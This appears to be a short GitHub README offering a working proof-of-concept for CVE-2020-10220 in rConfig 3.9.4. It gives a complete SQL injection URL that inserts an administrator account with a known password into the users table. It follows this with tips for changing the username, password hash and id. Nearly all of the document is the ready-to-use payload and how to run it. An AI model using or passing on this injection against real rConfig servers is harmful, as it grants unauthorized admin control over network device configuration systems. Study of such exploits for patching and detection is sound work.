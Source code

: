 # rConfig-3.9.4-SQL-injection-for-creating-admin

## CVE-2020-10220 

The following URL adds a user "apple" with password "admin" to the rConfig service. After running this, you can then login with the credentials apple:admin
```
https://192.168.95.57:8081/commands.inc.php?searchOption=contains&searchField=vuln&search=search&searchColumn=command ;INSERT INTO `users` (`id`, `username`, `password`, `userid`, `userlevel`, `email`, `timestamp`, `status`) VALUES ('450', 'apple', '21232f297a57a5a743894a0e4a801fc3', '6c97424dc92f14ae78f8cc13cd08308d', 9, 'apple@domain.com', 1346920339, 1);--
```
#### Things that can be changed:
* Obviously the username can be change. 
* The password field can be changed too. Just replace it with the corresponding md5 hash.
* For changing the id field, better keep it small (like between 200 and 900).
